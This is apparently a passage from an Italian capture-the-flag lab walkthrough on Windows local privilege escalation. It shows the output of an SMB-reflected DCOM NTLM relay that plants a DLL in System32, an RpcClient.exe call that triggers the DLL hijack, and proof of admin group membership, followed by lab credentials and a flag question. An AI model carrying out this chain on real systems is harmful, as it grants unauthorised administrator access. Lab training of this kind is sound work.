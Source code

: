 ```shell-session
[*] Received DCOM NTLM type 3 authentication from the privileged client
[+] SMB reflected DCOM authentication succeeded!
[+] SMB Connect Tree: \\127.0.0.1\c$  success
[+] SMB Create Request File: Windows\System32\SprintCSP.dll success
[+] SMB Write Request file: Windows\System32\SprintCSP.dll success
[+] SMB Close File success
[+] SMB Tree Disconnect success
```

Con la nostra DLL in posizione, ora possiamo eseguire `RpcClient.exe`per attivare la chiamata a  `SvcRebootToFlashingMode`, eseguendo di fatto il payload nella nostra DLL :

Prompt dei comandi

```shell-session
C:\Users\user\Desktop> RpcClient.exe
[+] Dll hijack triggered!
```

Per verificare se il nostro exploit ha funzionato come previsto, possiamo controllare se il nostro utente fa ora parte del gruppo Administrators:

Prompt dei comandi

```shell-session
C:\> net user user
User name                    user
Full Name
... some output omitted ...
Local Group Memberships      *Administrators       *Remote Desktop Users
                             *Users
Global Group memberships     *None
The command completed successfully.
```

Per generare un prompt dei comandi con privilegi di amministratore, puoi semplicemente fare clic con il pulsante destro del mouse e selezionare Esegui come amministratore utilizzando le credenziali del tuo utente. Ricorda che l'utente è `user`e la password è `Password123`:

Rispondi alle domande qui sotto

Eleva i tuoi privilegi sul sistema per ottenere una console amministrativa. Qual è il valore del flag in `C:\users\administrator\desktop\flag.txt`?

```
type C:\users\administrator\desktop\flag.txt
```

```
THM{xxxxxxxxxxx}
```



